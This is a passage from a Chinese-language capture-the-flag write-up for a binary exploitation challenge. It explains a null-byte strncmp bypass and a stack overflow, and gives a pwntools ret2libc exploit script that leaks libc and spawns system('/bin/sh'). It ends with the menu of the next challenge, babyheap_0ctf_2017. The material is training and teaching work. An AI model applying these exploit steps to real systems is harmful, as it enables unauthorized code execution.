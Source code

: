 ```c
    exit(0);
  write(1,"Correct\n", 8u);
  return v5;
}
```

这里的 `a1` 就是传入的随机数，然后要求我们的输入和随机数经过 `strncmp` 比较后完全相同，我们可以输入 `\x00` 使得 `strlen` 函数返回 0，从而使得 `strncmp` 函数只比较 0 个字节，那么就能绕过这里的 `exit(0)`，并返回 `v5`。注意到这里的返回值 `v5` 在 `ebp-0x25`，距离我们能控制的位于 `ebp-0x2c` 的变量 `buf` 相差 `0x7`，小于这里 `read` 的长度限制 `0x20`，因此可以通过栈溢出控制 `v5` 的值，从而控制 `main` 中的 `v2`。

随后，`v2` 会被传入 `sub_80487D0`:

```c
ssize_t __cdecl sub_80487D0(char a1)
{
  ssize_t result; // eax
  char buf; // [esp+11h] [ebp-E7h]

  if (a1 == 127)
    result = read(0, &buf, 0xC8u);
  else
    result = read(0, &buf, a1);
  return result;
}
```

`a1` 就是我们可以控制的 `v2`，也就是说这里可以向 `buf` 写入的数据长度也是我们能控制的，那么我们希望它尽可能大，也就是等于 `0xff`。那么在上一个函数中我们就需要令 `v5` 为 `0xff`，结合上面的绕过，可以输入 `'\x00' + 6*'a' + '\xff'` 来达到这个目的。最后 `ret2libc` 即可。

```python
def send1():
	payload = flat('\x00','a'*6,'\xff')
	sl(payload)
	ru('Correct\n')

send1()
main = 0x8048825
payload = flat('a'*(0xe7+4),elf.plt['write'],main,1,elf.got['__libc_start_main'],4)
sl(payload)

leak = u32(r(4))
system,binsh = ret2libc(leak,'__libc_start_main')

send1()
payload = flat('a'*(0xe7+4),system,'a'*4,binsh)
p.sendline(payload)
```

### babyheap_0ctf_2017

```
===== Baby Heap in 2017 =====
1. Allocate
2. Fill
3. Free
4. Dump
5. Exit
```
